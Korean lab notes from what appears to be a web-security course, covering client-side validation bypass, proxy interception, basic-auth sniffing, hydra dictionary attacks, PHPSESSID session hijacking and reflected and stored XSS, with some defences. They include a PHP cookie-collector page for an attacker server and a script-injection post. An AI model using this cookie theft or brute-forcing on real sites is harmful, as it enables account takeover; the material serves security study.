# 애플리케이션 공격 유형

데이터 검증


<br>

ByPassing Client Side Validation


<br>

##### SourceCode 직접 변조 

입력 값 제한 확인


<br>

회원가입페이지 > 페이지 소스 보기 또는 다른 이름으로 저장 


<br>

12글자 이상 넣어보고 회원가입


<br>

추가로 검증하는 부분 확인

```
<link rel="stylesheet" href="test_files/style_contents.css" type="text/css">
		<script>
			function ck(){				
				if(document.mform.user_id.value == "" || document.mform.user_id.value.length < 4 || document.mform.user_id.value.length > 12){
					alert("아이디를 다시 입력하세요.");
					mform.user_id.focus();
					return false;
				}

입력한 아이디가 없거나 또는 4글자 이하이거나 또는 12글자 이상인경우 아이디를 다시 입력하세요를 팝업 

if(document.mform.user_id.value == "" || document.mform.user_id.value.length < 4 || document.mform.user_id.value.length > 15){
```


<br>

다시 시도


```
멤버 가입 관련 페이지 경로 오류 발생

소스코드
<input value="등록" onclick="ck();" class="btn_default btn_gray" type="button">

~
입력값 검증 되면 지정된 페이지로 전송 
document.mform.submit();

form 안의 입력된 내용을 action에 지정된 페이지로 전송 그런데 상대경로!!! 
<form name="mform" method="post" action="member_register_ok.php">

실제로 네트워크에서 접속가능한 경로로 변경 
<form name="mform" method="post" action="http://172.16.0.111/member/member_register_ok.php">
```


<br>

회원가입 시도


<br>

DB에 접속하여 회원가입 여부 확인


<br>

<br>

<br>

##### Proxy Tool을 이용한 우회

웹브라우저 프록시 사용 체크


<br>

회원가입 창에서 회원가입 정보 입력


<br>

paros 에서 trap > trap request 체크


<br>

DB확인


<br>

<br>

<br>

##### Web 인증 공격 

구성도


<br>

2003 서버 , 웹서버(IIS) 설치

<br>

Web Server 확인


<br>

웹서버(IIS)  에 기본인증 구현

```
관리도구 > 인터넷 정보 서비스 관리 > 2003-00 > 웹사이트 > 기본 웹사이트 > 속성 > 
디렉터리 보안 > 인증 및 액세스 제어 
> 익명 액세스 가능 체크 해제 
> 인증된 액세스 > 기본 인증 체크 - 2003서버의 사용자 /
```


<br>

xp -> Web Server 접근


<br>

kali -> Wire Shark

접근하기 전에 kali에서 Wire Shark를 켜두고 접근 하겠습니다.


<br>

디코딩


<br>

<br>

<br>

##### bruteforcing

무차별 대입 하면 시간이 오래 걸려서 dictionary attack 으로 대체 하겠습니다.

kali -> dictionary file 만들기

```
password 파일
vi /root/passlist.txt
P@ssw0rd
monkey
dragon
1234

user 파일
vi /root/userlist.txt
administrator
test
korea
dac01
```

<br>

kali -> hydra 이용해서 확인


<br>

kali -> xhydra 이용해서 확인


<br>

방어

```
2003]
gpedit.msc
컴퓨터 구성 > Windows 설정 > 보안 설정 > 계정 정책 > 계정 잠금 정책

비밀번호를 3회 틀리면 5분동안 계정 잠김
```


<br>

kali -> passlist.txt 수정

```
vim /root/passlist.txt

moneky
dragon
123
1234
123456

틀린 비밀번호만 입력
```

<br>

kali -> hydra 이용해서 확인


아무것도 나오지 않았습니다.

<br>

2003 -> 확인


계정이 잠겨있는 모습을 볼 수 있습니다.

<br>

<br>

<br>

##### parameter bruteforcing


<br>

Web Server -> test01 user 만들기

member table에 아무 기록 없는 상태에서 시작 하겠습니다.


```
mysql> insert into member values(
    -> 1,
    -> 'test01',
    -> '4111',
    -> '테스터',
    -> 'tester',
    -> 28,
    -> 'test01@test01',
    -> now()
    -> );
```


<br>

bruteforcing 설정


<br>

Web 접속


<br>

로그인 시도 (틀리게)


<br>

 bruteforcing 설정


<br>

bruteforcing 시작


<br>

<br>

<br>

#####  WEB Session Attack


SESSION : 연결에 식별을 할 수 있는 어떠한 값 

<br>

서버에서 세션ID 를 부여 클라이언트는 쿠키라는 위치에 저장 

```
vim /etc/php.ini
~
session.save_path = "/var/lib/php/session"
~
session.name = PHPSESSID

서버가 세션을 파일로 관리
[root@localhost html]# ls -al /var/lib/php/session/
합계 40
drwxrwx--- 2 root   apache 36864 2022-10-28 01:45 .
drwxr-xr-x 3 root   root    4096 2020-04-19 01:39 ..
-rw------- 1 apache apache     0 2022-10-28 01:45 sess_0r9t325k3pr69sfpuj600uhah5
-rw------- 1 apache apache     0 2022-10-28 01:44 sess_ile5vbqjho9r9domt55kmgq404
```

<br>

###### 클라이언트는 세션을 이용하여 자신을 서버에 인증 



구성도



<br>

Web Site에 test02 회원 가입 후 host pc에서 test01 로그인

xp -> Wire Shark로 phpssesionID sniffing 하기





<br>

xp -> paros 이용해서 test02 로그인



<br>

xp -> paros 설정



<br>

xp -> 확인



phpssesionID를 이용해서 test02의 닉네임이 아닌 test01의 닉네임이 나오는 모습 입니다.

<br>

방어





```
대응책
- Sniffing 공격 차단 : https:// 
- 강력한 보안이 필요한 경우 페이지 별 Session Cookie를 할당 함

 개인정보 변경 페이지 → 패스워드 재 인증
- Session Cookie의 만료 시간을 적절히 설정 함
- 로그 아웃을 수행한 경우 Session을 파기 함
- Session Cookie와 클라이언트의 주소를 함께 확인 함


host]
edge > 로그인 > F12 (개발자 모드) > 네트워크 > 도크사이드 : 아래표시 


web server
index.php 
-> member/member_login.php -> member/member_login_check.php 
-> member/member_logout.php 

if (ini_get("session.use_cookies")) { 
	$params = session_get_cookie_params(); 
	setcookie( 
    	session_name(), '', time() - 42000, 
		$params["path"], $params["domain"], 
		$params["secure"], $params["httponly"] 
	); 
}                 << 내용 추가
```

<br>

host -> 확인



코드를 삽입해서 phpssesionID 변경 되도록 한 모습 입니다.

<br>

<br>

<br>

##### XSS(Cross Site Scriping)



<br>

공격 종류





<br>

##### injection vector test



<br>

<br>

<br>

##### reflective XSS test

```
사회공학(SPAM mail/쪽지 등) 공격을 등으로 사용자가 선택하기를 유도 함
-
사용자가 악성 스크립트가 포함된 URL을 클릭하면 서버에 요청이 전달 됨
-
서버의 취약한 페이지(클라이언트의 입력 값을 응답으로 출력 함)에서 악성 스크립트를 포함한 응답을 클
라이언트에 전송 함
-
클라이언트에서 공격자의 악성 스크립트가 실행되며 공격자가 지시한 동작을 수행 함
```

<br>

공격 원리

공격자가 악성코드를 미리 준비 함 → 악성 스크립트가 포함된 URL



혹은



<br>

xp -> 게시판에 글 생성



<br>

2003 -> 게시판 글 읽고 url 클릭 해보기



공격자는 해당 링크를 게시판/이메일/메신저 ... 으로 전달하여 상대가 클릭하도록 유도 하는 공격 방식 입니다.

<br>

<br>

<br>

##### stored XSS test



reflective는 게시판에 들어가서 url을 눌러야 실행

게시판의 게시물을 선택하는 순간 자동으로 실행

이 부분이 차이점 입니다.

<br>

##### XSS  실제 적용

구성도



<br>

환경 구성

kali

```
systemctl restart apache2      << apache 실행
systemctl status apache2       << 실행 확인
```

xp -> kali web 접속



<br>

kali -> 공격 대상의 정보가 기록 되도록 Web Server 구성

```
공격대상이 자신의 PHP 세션정보를 기록할 페이지를 작성 
vim /var/www/html/getcookie.php

<?php
 $fd=fopen("/tmp/cookie.dat","a+");
 while(list($key,$val)=each($_GET))
 {
   fputs($fd,$_SERVER['REMOTE_ADDR']."");
   fputs($fd,$key);
   fputs($fd,"=");
   fputs($fd,$val);
   fputs($fd,"\n"); 
 }
 fclose($fd);
?>
```

<br>

게시판에 글을 작성 1줄로 작성 (test 입니다.)



```
daum 이미지 주소를 복사해서 아래의 처럼 게시글을 작성해 주시면 됩니다.
</img><script>i.src="https://t1.daumcdn.net/daumtop_chanel/op/20200723055344399.png"</script>
```



<br>

xp -> 게시판에 공격할 글을 작성 

